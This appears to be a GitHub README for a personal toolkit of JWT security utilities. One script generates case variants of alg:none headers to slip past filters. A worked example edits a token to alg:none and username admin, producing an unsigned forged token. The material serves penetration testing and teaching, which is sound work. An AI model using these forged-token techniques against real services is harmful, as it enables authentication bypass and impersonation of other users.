 # DeizToolz

 🧐 Helpful Tools &amp; Scripts 🧐

This Repo contains many assorted utilities that I have created for various projects. 
Hope that this may help others in the same way, or at least as a starting point for similar projects. 

Primarily Python & Javascript files related to security 🤫, authentication, JSON, data transformation, etc. 

includes :
1. JWT-alg-none.py : Utility to input JWT, and return 4 variations of alg:none security header.
JWT-alg-none.py Usage:
Copy JWT into .py file as JWT = 'PASTE JWT HERE'.
Run file : python JWT-alg-none.py
Jwt will be split into 3 portions. Each portion will be split & displayed. The algorithm key value for the header portion will be changed from original value to alg:none. Then the decoded header & payload will be displayed. Signature will be ignored & copied as is, along with a count of the amount of characters displayed. 
NOTE: alg:none, alg:None, alg:NoNe, alg:NONE. Variations attempt to bypass filters blocking default 'none' algorithm.

    
2. JWT-Edit-Tool.py : Simple utility for Json Web Tokens to split, decode, and edit the json values.
JWT-Edit-Tool.py Usage:                   (Great for simple editing of JWT values.)

Paste JWT into file : Line 6 : JWT = 'PASTE JWT HERE'.
Run file : python JWT-Edit-Tool.py
JWT header & payload will be displayed in original & decoded json format.
If you want to change the value of a field in the header, or create a new key : Value pair, 
enter existing / new key name at first prompt. 
If no changes desired, leave blank & press enter.

Repeat process for the header key on next line. 
Type existing / new key or press enter to leave as is. 
Third prompt will take a new key for the "PAYLOAD" portion, or press Enter for no change. 
Fourth prompt will take new value for the key input above, or press Enter for no change.

NOTE: This will not provide an acccurate signature, if values change. 
Signature will be ignored, Copy original signature to the end of new JWT on output if 3 part format is required.

example:
JWT = "eyJhbGciOiJIUzI1NiJ9.eyJpZCI6NzEsInVzZXJuYW1lIjoiTkVXVVNFUk5BTUUiLCJleHBpcmF0aW9uIjoyMDIzNjA3OTkyNjkwfQ.yMurNH4Mqw1-bWqMsneAqYnkTvXMHtA5P7ydTgxMnLA"

python JWT-Edit-Tool.py
-- OUTPUT --
Target Json Web Token
Source JWT Header =  eyJhbGciOiJIUzI1NiJ9
Decoded, json format: =   {'alg': 'HS256'}

Source JWT Body =  eyJpZCI6NzEsInVzZXJuYW1lIjoiTkVXVVNFUk5BTUUiLCJleHBpcmF0aW9uIjoyMDIzNjA3OTkyNjkwfQ==
Decoded, json format: =  {'id': 71, 'username': 'NEWUSERNAME', 'expiration': 2023607992690}

Header : Enter key for json value to edit (enter for no change)...... alg
Header : Enter Value for chosen key (enter for no change)......none 
Payload : Enter key for json value to edit (enter for no change)...... username
Payload : Enter Value for chosen key (enter for no change)......admin

Modified Header =  eyJhbGciOiAibm9uZSJ9
Decoded, json format: =  {'alg': 'none'}

Modified Payload =  eyJpZCI6IDcxLCAidXNlcm5hbWUiOiAiYWRtaW4iLCAiZXhwaXJhdGlvbiI6IDIwMjM2MDc5OTI2OTB9
Decoded, json format: =  {'id': 71, 'username': 'admin', 'expiration': 2023607992690}

New JWT = eyJhbGciOiAibm9uZSJ9.eyJpZCI6IDcxLCAidXNlcm5hbWUiOiAiYWRtaW4iLCAiZXhwaXJhdGlvbiI6IDIwMjM2MDc5OTI2OTB9
